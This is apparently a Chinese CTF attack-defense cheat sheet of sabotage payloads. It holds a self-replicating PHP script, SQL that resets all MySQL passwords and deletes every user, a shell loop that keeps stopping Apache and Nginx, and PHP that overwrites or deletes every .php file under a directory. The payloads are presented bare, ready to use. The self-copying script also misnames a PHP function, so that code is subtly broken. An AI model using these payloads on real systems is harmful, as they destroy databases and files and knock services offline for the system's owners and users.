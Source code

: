 ## 

## 攻击搅屎

无限复制

```
<?php
  set_time_limit(0);
  ignore_user_abort(true);
  while(1){
      file_put_contents(randstr().'.php',file_get_content(__FILE__));
      file_get_contents("http://127.0.0.1/");
  }
?>
```

修改数据库密码

```
update mysql.user set authentication_string=PASSWORD('p4rr0t');# 修改所有用户密码
flush privileges;
UPDATE mysql.user SET User='aaaaaaaaaaaa' WHERE user='root'; 
flush privileges;
delete from mysql.user ;#删除所有用户
flush privileges;
```

重启 apache2 和 nigix

```
#!/usr/bin/env sh
while [[ 1 ]]
do
    service apache2 stop
    service nginx stop
done &
```

循环删除

```
<?php
    set_time_limit(0);
    ignore_user_abort(1);
    unlink(__FILE__);
    function getfiles($path){
        foreach(glob($path) as $afile){
            if(is_dir($afile))
                getfiles($afile.'/*.php');
            else
                @file_put_contents($afile,"#Anything#");
                //unlink($afile);
        }
    }
    while(1){
        getfiles(__DIR__);
        sleep(10);
    }
?>

<?php
    set_time_limit(0);
    ignore_user_abort(1);
    array_map('unlink', glob("some/dir/*.php"));
?>
```
